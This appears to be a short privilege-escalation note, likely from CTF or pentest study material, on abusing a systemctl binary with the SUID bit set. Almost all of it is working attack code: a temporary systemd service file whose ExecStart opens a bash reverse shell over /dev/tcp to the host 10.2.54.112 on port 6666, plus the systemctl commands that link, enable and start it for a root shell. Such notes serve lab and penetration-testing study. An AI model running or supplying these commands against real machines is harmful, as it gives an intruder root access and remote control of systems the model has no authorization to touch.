 
If we have a `Systemctl` command with enabled SUID bit we can exploit it to get a root shell using the following command:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.2.54.112/6666 0>&1"
[Install]
WantedBy=multi-user.target' > $TF
#then we can use either these commands to start the service
systemctl link $TF
systemctl enable --now $TF
# or these
systemctl enable $TF
systemctl start <filename without path)>
```

**Important Note: if we want to run the service once again, we can use the following command:**

```bash
echo $TF #to get the file name and path, then we run the file but without the path
systemctl start <filename without path>
```
